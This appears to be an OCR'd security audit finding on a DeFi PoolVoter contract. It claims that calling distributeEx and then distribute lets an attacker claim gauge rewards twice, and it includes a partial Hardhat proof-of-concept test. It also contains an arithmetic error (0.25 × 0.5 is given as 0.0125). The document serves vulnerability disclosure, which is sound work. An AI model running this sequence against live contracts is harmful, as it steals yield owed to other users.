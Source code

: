 ```solidity
                    IERC20(token).approve(_gauge, 0); // first set to 0, this helps reset some non-standard tokens
                    IERC20(token).approve(_gauge, _reward);
                    IGauge(_gauge).notifyRewardAmount(token, _reward); // can return false, will simply not distribute tokens
                }
            }
        }
    }
```

So notice that the reward in function distributeEx is calculated directly based on the balance of token (e.g. reward token), weights[pool] and totalWeight. 
But here the claimable[_gauge] is not updated. So by calling distributeEx and distribute(address), the hackers can get double reward from the protocol. By doing so, he steal unclaimed yield from others. 


If a hacker deposit or borrow into a pool (POOL_0) and can get 50% of reward of POOL_0. According to the design of the protocol, if POOL_0 have weights is 25% of the total reward then the reward should be

REWARD_AMOUNT * 0.25 * 0.5 = 0.0125 * REWARD_AMOUNT 


But by calling distributeEx and distribute(address _gauge), the hacker can get double the reward

REWARD_AMOUT * 0.25* 2 * 0.5  = 0.25 * REWARD_AMOUT = 2 times 

So the profit can be 2 times in one scenario. 

I demonstrated this in my POC. 

```typescript
it("Test the distributeEx of PoolVoter contract to get the double reward", async function () {
    expect(await poolVoter.totalWeight()).eq(0); 
    console.log("totalWeight: ", await poolVoter.totalWeight()); 
    
    console.log("length of pools:", await poolVoter.length());
    console.log("zero balance of PoolVoter: ", await zero.balanceOf(poolVoter.target)); // Should be 0
    console.log("Step: the Deployer (the owner of Zero token) approve the PoolVoter to spend 100 ZERO token");
    
    // For this test case, just need dummy _asset and _gauge 
    const [_asset,_gauge] = await hre.ethers.getSigners();
    await poolVoter.connect(deployer).registerGauge(_asset.address,_gauge.address);
    
    await poolVoter.connect(ant).vote([reserve.target,_asset.address], [1e8,3e8]);
    console.log("after vote totalWeight: ", await poolVoter.totalWeight()); 
    console.log("length of pools:", await poolVoter.length());
             
    await zero.connect(deployer).approve(poolVoter.target, e18 * 100n);
    await poolVoter.connect(deployer).notifyRewardAmount(e18 * 100n);
    console.log("After notifyRewardAmout zero balance of PoolVoter: ", await zero.balanceOf(poolVoter.target));
    
       
    console.log("Before distributeEx zero balance of aTokenGauge: ", await zero.balanceOf(aTokenGauge.target));
    console.log("Before distributeEx zero balance of varTokenGauge: ", await zero.balanceOf(varTokenGauge.target));
    console.log("Step: Call distributeEx to distribute the reward");
    await poolVoter.connect(ant)["distributeEx(address,uint256,uint256)"](zero.target,0,1);
    console.log("After distributeEx zero balance of aTokenGauge: ", await zero.balanceOf(aTokenGauge.target));
    console.log("After distributeEx zero balance of varTokenGauge: ", await zero.balanceOf(varTokenGauge.target));
```